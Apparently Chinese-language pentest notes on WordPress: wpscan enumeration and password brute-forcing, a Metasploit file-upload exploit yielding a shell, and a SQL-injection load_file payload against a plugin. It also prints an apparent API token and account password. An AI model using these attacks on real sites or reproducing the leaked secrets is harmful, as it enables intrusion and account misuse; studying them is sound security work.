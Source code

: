 很多企业官网使用的WordPress搭建。

^
# **wpscan扫描器**
使用wpscan工具扫描历史漏洞和插件组件漏洞。
如：任意文件读取等。

需要注册token才能查看漏洞信息
<https://blog.csdn.net/weixin_44628122/article/details/107250045>
3312@qq.com+ 123
```
命令时带上token
--api-token mKcu3vyatgfAvUnipF7VMuZEuI2Lr3SGVjAp4ani1aQ
```


kali中可以使用wpscan：
```text
wpscan --url https://www.xxxxx.wiki/
```

> 演示案例：

* 我们扫描192.168.43.104:8000这个站点（此站点存在一个WordPress进程）

![](https://pic3.zhimg.com/v2-b90cd10071461ee62a625f52f4698a20_r.jpg)

![](https://pic4.zhimg.com/v2-f30e534aa4bbe3e6d6580aa7c5b32aff_r.jpg)

## 五、扫描指定用户

* 格式：

```text
wpscan --url https://www.xxxxxxx.wiki/ --enumerate u
```

## 六、**暴力破解得到密码**

* **在暴力破解之前，需要提供一个字典文件**
* 格式：

```text
wpscan --url  https://www.xxxxx.wiki/  -e  u --wordlist 字典文件路径
```

## 七、**扫描插件漏洞**

* 插件可以扩展`WordPress`站点的功能，但很多插件中都存在安全漏洞，而这也会给攻击者提供可乘之机
* 我们可以使用下列命令扫描`WordPress`站点中安装的插件：

1. wpscan --url [https://www.xxxxx.wiki/](https://link.zhihu.com/?target=https%3A//www.xxxxx.wiki/) --enumerate p
2.
3. //备注：--url与-u参数相同，下面雷同

* 我们可以使用下列命令来扫描目标插件中的安全漏洞：

```text
wpscan --url https://www.xxxxx.wiki/ --enumerate vp
```

## 八、**主题漏洞扫描**

* 使用下列命令对主题进行扫描：

```text
wpscan --url https://www.xxxxx.wiki --enumerate t
```

> 演示案例：

![](https://pic1.zhimg.com/v2-3673956c30b6f8797b6bd8788b7e17ce_r.jpg)

* 看到总共数据库中的402个主题，发现了3个主题，但是发现的主题不一定有这么多，会在下面显示

![](https://picx.zhimg.com/v2-6e69696ff70649a8dd4a643e0653e2df_r.jpg)

* 使用下列命令扫描主题中存在的漏洞：

```text
wpscan --url https://www.xxxxxx.wiki --enumerate vt
```

## 九、**`TimThumbs`文件漏洞扫描**

```text
wpscan -u https://www.xxxxxx.wiki/ -enumerate tt
```

^


## 结合Metasploit利用插件中的漏洞

接下来，我们将用第一个插件中的任意文件上传漏洞来进行漏洞利用演示，该漏洞允许我们上传恶意文件并实现远程代码执行。

打开终端窗口并输入下列命令：

```
useexploit/unix/webapp/wp_reflexgallery_file_upload
msfexploit(wp_reflexgallery_file_upload) > set rhost 192.168.0.101
msfexploit(wp_reflexgallery_file_upload) > set targetURI /wordpress/
msfexploit(wp_reflexgallery_file_upload) > exploit
```

你将看到终端与目标设备建立了Meterpreter会话，你可以输入下列命令查看目标系统信息：

```
Sysinfo
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287971789768.png!small)

## 枚举WordPress用户名

我们可以在终端中输入下列命令来枚举WordPress用户名：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ --enumerate u
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972068549.png!small)

接下来工具将导出用户名数据表，你可以看到用户名以及对应的ID信息。

当然了，你也可以使用下列命令枚举出所有的内容：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ -e at -e ap -e u
–e at : enumerate all themes of targeted website
–e ap: enumerate all plugins of targeted website
–e u: enumerate all usernames of targeted website
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972309586.png!small)

## 使用WPScan进行暴力破解

在进行暴力破解攻击之前，我们需要创建对应的字典文件。输入下列命令：

```
./wpscan.rb –u http://192.168.0.101/wordpress/ --wordlist /root/Desktop/dict.txt --usernameadmin
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/1528797258105.png!small)

如果找到了相匹配的用户名与密码，工具将直接以admin:password的形式显示出来：



^
# **wp扩展漏洞**
WordPress Double Opt-In for Download 插件 2.0.9 版本中, public/class-doifd.php 文件中 populate_download_edit_form 函数中 id 参数未经过滤，直接拼接 SQL 语句，导致 SQL 注入漏洞。
```
public function populate_download_edit_form() {

    global $wpdb; // this is how you get access to the database

    if( isset( $_POST[ 'id' ] ) ) {

        $value = $_POST[ 'id' ];

        $download = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}doifd_lab_downloads WHERE doifd_download_id = $value", ARRAY_A );
    }
    echo json_encode( $download );
    die(); // this is required to terminate immediately and return a proper response
}
```
这里的$_POST[ ‘id’ ]没有经过过滤直接带入了sql语句，造成了sql注入。
注册登录，POST发送如下数据包：
```
/wp-admin/admin-ajax.php?action=populate_download_edit_form 

data:
id=0 union select 1,2,3,4,5,6,load_file(0x2f666c61675f69735f68657265)
```